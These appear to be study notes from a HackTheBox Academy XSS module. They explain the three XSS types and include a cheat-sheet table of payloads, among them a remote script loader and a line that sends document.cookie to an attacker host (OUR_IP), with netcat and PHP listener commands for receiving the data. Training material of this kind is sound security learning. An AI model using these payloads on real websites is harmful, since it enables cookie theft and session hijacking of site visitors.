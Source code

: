 XSS vulnerabilities take advantage of a flaw in user input sanitization to "write" JavaScript code to the page and execute it on the client side, leading to several types of attacks.
XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (`low impact + high probability = medium risk`), which we should always attempt to `reduce` risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

![](https://i.imgur.com/8mmHl3Z.png)

## Types of XSS

There are three main types of XSS vulnerabilities:

|Type|Description|
|---|---|
|`Stored (Persistent) XSS`|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|`Reflected (Non-Persistent) XSS`|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|`DOM-based XSS`|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

<span style="color:#00ff73">Stored XSS or Persistent XSS</span>. If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page. Furthermore, Stored XSS may not be easily removable, and the payload may need removing from the back-end database.


# Commands

| Code                                                                                          | Description                       |
| --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80`                                                                      | Start `PHP` server                |

# Questions & Answers